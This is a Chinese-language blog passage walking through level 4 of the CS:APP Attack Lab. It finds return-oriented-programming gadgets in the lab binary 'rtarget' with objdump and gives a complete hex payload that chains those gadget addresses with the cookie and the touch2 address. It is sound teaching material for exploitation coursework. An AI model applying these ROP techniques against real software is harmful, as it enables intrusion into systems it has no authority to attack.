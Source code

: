 ![gadget](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543740079.png "gadget")

再开始任务前，先浏览下指令的编码，因为下面的需要使用到。

![movq 指令编码](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543740667.png "movq 指令编码")

![popq 指令编码](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543740723.png "popq 指令编码")

![movl 指令编码](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543740778.png "movl 指令编码")

![2 字节编码](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543740825.png "2 字节编码")

在这一关中重新实现第二关，只是不能将指令序列放入栈中。所以需要在现有的程序中，找到我们需要的指令序列。

可以选择两种方式：
1. 先将 `cookie` pop 到一个寄存器，然后用 mov 将该寄存器的值送入 `$rdi` 中。
2. 让 `cookie` 从栈中 pop 到 `$rdi` 中，然后将返回地址设置成 `touch2`。

这里采用第一种方法。那么需要的指令序列就是下面的。

```x86asm
popq %rax
movq %rax, %rdi
```

为了得到指令集，先反编译 `rtarget`，题目中要求只能用 `start_farm` 和 `mid_farm` 中间的指令序列。

```sh
objdump -d rtarget > rtarget-disassemble
```

然后我们找到 `popq %rax` 的指令字节是 `58`。所以找到下面的函数。

```x86asm
00000000004019a7 <addval_219>:
  4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:   c3                      retq
```
所以 `popq %rax` 指令的地址是 `0x4019a7 + 0x04`，也就是 `0x4019ab`。

`movq %rax, %rdi` 的指令字节是 `48 89 c7`，所以找到下面的函数。

```x86asm
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```

所以 `movq %rax, %rdi` 指令的地址是 `0x4019a0 + 0x02`，也就是 `0x4019a2`。

![](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543742011.png)

得到 `level4` 文件如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

